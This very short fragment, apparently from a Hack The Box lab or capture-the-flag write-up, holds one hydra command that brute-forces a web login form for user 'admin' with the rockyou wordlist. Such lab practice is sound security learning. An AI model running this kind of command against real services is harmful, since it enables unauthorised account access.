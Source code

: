 hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" -s 48383
